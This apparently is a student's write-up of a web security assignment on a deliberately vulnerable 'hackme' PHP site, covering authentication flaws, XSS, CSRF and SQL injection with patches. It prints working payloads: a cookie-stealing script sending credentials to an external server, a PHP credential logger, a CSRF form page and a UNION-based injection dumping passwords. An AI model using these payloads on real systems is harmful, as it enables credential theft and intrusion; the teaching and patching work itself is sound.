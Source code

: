 # Web Security

## Assignment Purpose

The purpose of this assignment was to gain experience analyzing a web
application for security vulnerabilities, and patching them. Our assignment
was to find authentication, cross-site scripting, cross-site request forgery,
and SQL injection vulnerabilities, and fix them. The original, vulnerable
version, as well as the fixed version, can be found in this repository.

## Authentication

### Description

The password management system for the hackme site is terrible. There are five
major issues with this site. First, it simply checks to see if there is a cookie
set called "hackme", and the value of that cookie is assumed to be the username.
No password check required, the site just assumes that you are authenticated as
that user. Second, if a user actually does register, all passwords are stored as
plaintext. This allows anyone with access to the database to see all passwords
of all users. Third, HTTPS is not used when logging in or registering for the
site. This allows anyone with a network-snooping tool (like Wireshark) to grab
this plaintext information out of the air. Fourth, no measures are in place to
prevent brute-forcing attacks. Passwords that are easy enough to guess will
inevitably be revealed to an attacker, as an automated "guess and check"
approach will get these passwords in no time. Lastly, strong passwords are not
enforced, meaning that an ignorant user can set a one-character password if he
or she chooses.

### Vulnerability 1

Since the only authentication system in place is checking the value of the
"hackme" cookie, any non-registered user can simply assume the role of a
registered user, and do anything that the registered user can do.

### Vulnerability 1 Patch

I used PHP's $\_SESSION global variable to handle information about the current
session, such as who is logged in. By using this instead of storing a cookie,
PHP does not store the authenticated user on the client side, but instead stores
a session ID to prevent users from easily bypassing the login mechanism. The
session ID is then connected to the authenticated user on the server side, so
that session functionality is still intact.

### Vulnerability 2

Registered users' passwords are also stored in the database as plaintext,
allowing anybody with access to the databases to view these passwords.

### Vulnerability 2 Patch

The password is hashed before being stored in the database, so that people with
access to the database cannot view plaintext passwords. When a user logs in, the
hash of the entered password is then compared with the hash stored in the
database, allowing password functionality to remain intact.

### Vulnerability 3

User credentials are sent "in the clear", allowing attackers to easily snatch
them out of the air.

### Vulnerability 3 Patch

Using HTTPS, so confidential information is encrypted.

### Vulnerability 4

There is no maximum amount of attempts of guessing a password, allowing an
attacker to brute-force and obtain weak passwords easily.

### Vulnerability 4 Patch

Users now only have three password attempts before they are locked out of their
account. After that, the site administrator must unlock their account.

### Vulnerability 5

A strong password scheme is not enforced, allowing ignorant users to set
one-character passwords for the sake of convenience, opening them up to attacks.

### Vulnerability 5 Patch

Passwords are now required to be more than 8 characters in length, and contain
numbers, so that the passwords are not dictionary words.

## Cross-Site Scripting

### Vulnerability

To execute this attack, I posted a thread (as shown in Example 2.1) with
embedded JavaScript code, which gets executed when the page showing the thread
loads. This JavaScript code parses the `document.cookie` JavaScript string,
and finds the username and password embedded inside it. It then sends the
username and password to an external server that accepts a username and
password as GET arguments, and logs the received credentials to a text file.
The source code that stores the usernames and passwords is shown in Example
2.2.

```html
<script>
    var unStartIndex = document.cookie.indexOf("hackme")+7;
    var unEndIndex = document.cookie.indexOf("; hackme_pass");
    var pwStartIndex = document.cookie.indexOf("hackme_pass")+12;
    var pwEndIndex = document.cookie.length;
    var un = document.cookie.substring(unStartIndex, unEndIndex);
    var pw = document.cookie.substring(pwStartIndex, pwEndIndex);
    var params = "?un=" + un + "&pw=" + pw;
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", "http://cse.taylor.edu/~jluscomb/xss.php"+params, false);
    xhttp.send();
</script>
```
**Example 2.1**: The malicious message that leverages the XSS attack.

```php
<?php
    $file = fopen("/home/CS/users/jluscomb/.linux/tmp/passwords.txt", "a");
    fwrite($file, $_GET['un']."/".$_GET['pw']."\n");
```
**Example 2.2**: The source code that stores the usernames and passwords.

### Patch

To patch this vulnerability, all I had to do was simply call PHP's provided
`filter_var()` function with the title and message of the thread, and it did
all the work of taking the `<script>` tags out, eliminating the XSS
vulnerability.

## Cross-Site Request Forgery

### Vulnerability

To execute this attack, I created a malicious web page that encourages the user
to click a button to show a typo. Upon clicking this button, the user
unknowingly submits a form that posts a thread on the hackme site. A user might
be lured to visit the malicious website through a phishing email advertising,
in this particular case, funny typos. The user is tricked into visiting the
site and clicking the button, falling victim to a CSRF attack. The malicious
web page that implements the CSRF attack is shown in Example 3.1.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Typos</title>
</head>
<body>
    <h1>All the typos on the <em>interenet</em>!</h1>
    <form action="http://10.121.20.109/hackme/post.php" method="post">
        <input type="hidden" name="title" value="You won!" />
        <input type="hidden" name="message" value="You have been selected for a free flying dragon ride." />
        <input type="submit" name="post_submit" value="View a typo" />
    </form>
</body>
</html>
```
**Example 3.1**: The source code that implements the CSRF attack.

### Patch

To patch this vulnerability, I added some PHP code that checks the HTTP referer
before allowing the thread submission. That way, the page ignores any requests
with HTTP referers outside of the site.

## SQL Injection

### Vulnerability

To execute this attack, I examined the source code for a query that uses string
concatenation, and whose results are returned in the HTML. One such
vulnerability was in the query to display all threads on the site, under the
`show.php` page. The query beings with `SELECT * FROM threads WHERE id = `, and
fills in the ID with an unsanitized GET parameter. I used this parameter to
complete the query with something that would return the username and passwords
of all users, as shown in Example 4.1.

```
http://10.121.20.109/hackme/show.php?pid=' UNION SELECT null AS id, username, CONCAT(username, "'s
password") AS title, CONCAT('The password for ', username, ' is: ', pass) AS message,
UNIX_TIMESTAMP(NOW()) AS date FROM users WHERE username LIKE '%
```
**Example 4.1**: The HTTP request that leverages the SQL injection attack. Line
breaks are added for convenience.

### Patch

To patch this vulnerability, I replaced all of the unsafe SQL queries with
prepared statements. According to W3Schools, with prepared statements,
parameter values are transmitted after the SQL statement template, using a
different protocol. This eliminates the problem of SQL statement templates
being derived from external output, which allowed for SQL injection in the
first place. With this problem eliminated, the SQL injection vulnerability
is no longer a problem.
